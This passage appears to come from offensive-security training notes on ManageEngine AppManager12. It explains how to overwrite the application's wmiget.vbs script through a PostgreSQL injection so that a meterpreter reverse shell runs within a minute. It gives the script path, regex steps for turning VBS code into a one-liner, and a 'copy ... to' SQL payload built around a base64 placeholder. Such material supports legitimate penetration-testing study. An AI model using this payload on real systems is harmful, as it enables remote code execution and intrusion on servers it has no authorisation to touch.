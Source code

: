 ## VBA files
The first method to get a reverse shell is to introduce malicious code into the VBS files that are used by the ManageEngine application during normal operation.
These scripts are located in the following directory:

```path
C:\Program\ Files\ (x86)\ManageEngine\AppManager12\working\conf\application\scripts
```

Exploring procmon, we can see the script that we need to introduce malicious code to, to get a reverse shell:

![](../../03.%20Screenshots/t2-ss13.png)

With this, we can now navigate to the file and explore it's contents.
We do not need to understand the contents, however, we need to preserve them and add a meterpreter generated reverse shell after it, all in one line as copy to function does not take new line characters.

To make the existing wmiget.vbs(and also our reverse shell) file into a one-liner we will find and replace the following:

```
1. find and replace '.* with nothing -- will remove all the comments
2. find and replace _.*?\n with nothing -- will remove the continuation lines
3. find and replace \t with nothing -- will remove all tabs
4. find and replace \n with : -- will remove all new lines
5. find and replace \r\n with : -- will remove all carraige return
6. find and replace :: with : 
```

Once we've done this, we can then merge the contents of our shell and the wmiget file and wait for 1 minute as our shell gets executed:

![](../../03.%20Screenshots/t2-ss14.png)

Now- we can put our shellcode into the following payload:

```sql
copy+(select+convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$))+to+$$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

We need to send our payload in a POST request as a GET request has limit and our payload crosses the URL limit.
Sending our payload, we receive the reverse shell in under 1 minute:

![](../../03.%20Screenshots/t2-ss15.png)

However, this approach may not always be possible because it is specific to the ManageEngine installations running on Windows hosts. Because of this we need a more generic approach in the remainder of this module .